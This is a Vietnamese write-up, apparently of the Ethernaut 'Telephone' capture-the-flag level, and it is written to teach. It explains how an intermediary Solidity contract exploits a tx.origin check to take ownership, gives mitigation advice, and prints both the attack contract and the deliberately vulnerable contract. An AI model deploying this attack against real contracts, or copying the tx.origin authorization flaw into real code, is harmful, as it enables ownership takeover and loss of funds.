 ### Kết luận
- Lỗ hổng:
1. Contract tấn công TelephoneHack được thiết kế để vượt qua điều kiện `if` của hàm `changeOwner`.
2. `msg.sender` khi gọi `TelephoneHack.attack()` là địa chỉ của người dùng (attacker).
3. `tx.origin` vẫn là địa chỉ của người dùng (không đổi qua nhiều contract).
=> Do đó, msg.sender của contract Telephone sẽ là `address(TelephoneHack)` (contract trung gian) trong khi tx.origin vẫn là attacker, thỏa mãn điều kiện `tx.origin != msg.sender`.
=> Kẻ tấn công có thể thay đổi owner của contract Telephone.


- Cách phòng tránh:
1. Không nên sử dụng tx.origin () để kiểm tra quyền mà cần sử dụng msg.sender để an toàn hơn, hoặc có thể thêm xác thực bằng chữ kí số,..etc.
### Attack Contract
```solidity
// SPDX-License-Identifier: MIT
import './telephone.sol';
pragma solidity ^0.8.0;
interface ITelephone{
    function changeOwner(address _owner) external;
}
contract TelephoneHack{
    ITelephone public telephone;
    constructor (address _challenge){
        telephone = ITelephone(_challenge);
    }
    function attack() external {
        telephone.changeOwner(tx.origin);
    }
    fallback() external payable{}
}
```
### Contract
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner; // Lỗ hổng ở đây
        }
    }
}
```
